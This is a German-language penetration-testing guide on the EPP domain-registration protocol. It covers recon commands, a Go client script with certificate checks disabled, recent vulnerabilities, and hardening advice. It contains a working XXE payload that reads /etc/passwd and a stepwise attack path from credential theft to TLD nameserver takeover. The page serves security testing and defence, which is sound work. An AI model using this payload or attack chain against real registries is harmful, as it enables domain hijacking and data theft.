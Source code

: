 # 700 - Pentesting EPP

{{#include ../banners/hacktricks-training.md}}

## Grundlegende Informationen

Das Extensible Provisioning Protocol (EPP) ist ein Netzwerkprotokoll, das für die **Verwaltung von Domainnamen und anderen Internetressourcen** durch Domain-Registrierungsstellen und Registrare verwendet wird. Es ermöglicht die Automatisierung von Prozessen zur Registrierung, Erneuerung, Übertragung und Löschung von Domainnamen und gewährleistet einen standardisierten und sicheren Kommunikationsrahmen zwischen verschiedenen Entitäten im Domain Name System (DNS). EPP ist so konzipiert, dass es flexibel und erweiterbar ist, sodass neue Funktionen und Befehle hinzugefügt werden können, während sich die Bedürfnisse der Internetinfrastruktur weiterentwickeln.

Im Grunde genommen ist es eines der Protokolle, die ein **TLD-Registrar den Domain-Registraren** anbieten wird, um neue Domains in der TLD zu registrieren.

### Pentest

[**In diesem sehr interessanten Artikel**](https://hackcompute.com/hacking-epp-servers/) können Sie sehen, wie einige Sicherheitsforscher herausfanden, dass mehrere **Implementierungen dieses Protokolls** anfällig für XXE (XML External Entity) waren, da dieses Protokoll XML zur Kommunikation verwendet, was Angreifern ermöglicht hätte, Dutzende verschiedener TLDs zu übernehmen.

---

## Enumeration & Recon

EPP-Server hören fast immer auf TCP `700/tcp` über TLS. Eine typische Bereitstellung erzwingt auch **mutual-TLS (mTLS)**, sodass der Client ein gültiges Zertifikat vorlegen muss, das von der Registry-CA ausgestellt wurde. Dennoch vergessen viele private Test- oder Vorproduktionsbereitstellungen diese Kontrolle:
```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
-servername epp.test 2>/dev/null | head
```
Wenn der Server die Verbindung nach dem TLS-Handshake nicht beendet, können Sie versuchen, eine nicht authentifizierte `<hello/>`-Nachricht zu senden:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<hello/>
</epp>
```
### Open-Source-Clients, die für Tests nützlich sind

* **epp-client (Go)** – aktiv gewartet, unterstützt TCP/TLS und EPP-over-HTTPS (RFC 8730):
`go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – minimale Client-Bibliothek, die leicht für Fuzzing oder Nuclei-Style-Workflows instrumentiert werden kann.
* **afq984/php-epp-client** – PHP-Implementierung, die von vielen kleinen Registraren verwendet wird; ein praktisches Ziel für Code-Reviews.

Beispiel für ein minimales Login+Check-Skript mit Go epp-client:
```go
package main
import (
"github.com/domainr/epp"
"crypto/tls"
)

func main() {
cfg := &tls.Config{InsecureSkipVerify: true}
c, _ := epp.DialTLS("epp.test:700", cfg)
c.Login("CLIENT_ID", "PASSWORD", nil)
resp, _ := c.DomainCheck("example","com")
println(resp)
}
```
---

## Häufige Schwächen & 2023-2025 Schwachstellen

| Jahr | Komponente | CWE | Auswirkung |
|------|-----------|-----|--------|
| 2023 | CoCCA Registry < 3.5 | CWE-611 XXE | Fernzugriff auf Dateien & SSRF über gestaltete `<epp>` Nutzlast (Patch: 2023-11-02) |
| 2024 | FRED EPP Server 2.x | CWE-322 Unzureichende TLS-Zertifikatsvalidierung | Umgehung von mTLS erlaubte unbefugte Registrar-Anmeldung |
| 2025 | Proprietäres Registrar-Panel | CWE-306 Fehlende Authentifizierung für kritische Funktion | Endpunkt zur Genehmigung von Domainübertragungen über EPP-HTTP-Brücke exponiert |

### XXE / SSRF Nutzlast (funktioniert gegen viele Java/Spring Implementierungen)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<command>
<check>
<domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
<domain:name>&xxe;</domain:name>
</domain:check>
</check>
</command>
</epp>
```
Wenn der Parser falsch konfiguriert ist (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`), wird der Dateinhalt innerhalb der `<resData>`-Struktur zurückgegeben.

### Weitere typische Erkenntnisse

1. **Schwache Passwortpolitik** – EPP-Login-Passphrasen kürzer als 8 Zeichen; Brute-Force ist oft machbar, da die Spezifikation nur eine Ratenbegrenzung EMPFIEHLT (nicht vorschreibt).
2. **Fehlender `registryLock` / `serverUpdateProhibited`-Status** – Nach der Authentifizierung können Angreifer sofort NS-Einträge aktualisieren und Traffic stehlen.
3. **Unsignierte Poll-Nachrichten** – Einige Implementierungen signieren immer noch keine Poll-Q&A-Nachrichten, was Spoofing/Phishing von Registrar-Betreibern ermöglicht.

---

## Angriffsweg: Vom Nullpunkt zur TLD-Übernahme

1. Entdecken Sie einen EPP-Endpunkt (oft hinter einem generischen Host wie `ot&e.<tld>.nic.<cc>` versteckt).
2. Missbrauchen Sie eine der oben genannten Schwächen, um Anmeldeinformationen auf Registrar-Ebene zu erlangen (XXE → SSRF zu IMDSv1, Credential-Exfiltration oder TLS-Umgehung).
3. Stellen Sie `<update>`-Anfragen, um die `hostObj`-Einträge der Domain auf von Angreifern kontrollierte Nameserver zu ändern.
4. (Optional) Reichen Sie einen `<transfer>` ein, um die Domain zu einem von Angreifern kontrollierten Registrar zu verschieben – viele Registries verlassen sich immer noch auf einen **einzigen Auth-Code**.
5. Profit: vollständige Kontrolle über die DNS-Zone, Möglichkeit, TLS-Zertifikate über ACME anzufordern.

---

## Verteidigungsmaßnahmen & Härtung

* Erzwingen Sie **mTLS mit pro-Registrar-Client-Zertifikaten** und pinnen Sie die Registry-CA.
* Setzen Sie `parserFeature secure-processing=true` oder Äquivalentes, um XXE zu verhindern.
* Führen Sie **kontinuierliches Fuzzing** des XML-Parsers durch (z. B. mit `go-fuzz` oder `jazzer` für Java).
* Implementieren Sie **Registry Lock / server*Prohibited**-Status für wertvolle Domains.
* Überwachen Sie die `poll`-Warteschlange auf verdächtige `<transfer>`- oder `<update>`-Befehle und alarmieren Sie in Echtzeit.
* Die ICANN 2024 DNS-Missbrauchsvertragsänderungen erfordern von Registries, Ratenbegrenzungs- und Authentifizierungskontrollen nachzuweisen – nutzen Sie diese.

## Referenzen

* ICANN Security and Stability Advisory Committee (SSAC). "SAC118: Konsequenzen des Versagens des Registry-Betreibers bei der Implementierung von EPP-Sicherheitskontrollen". 2024.
* HackCompute – "Hacking EPP-Server: Missbrauch von XXE zur Übernahme von TLDs" (2023).
{{#include ../banners/hacktricks-training.md}}
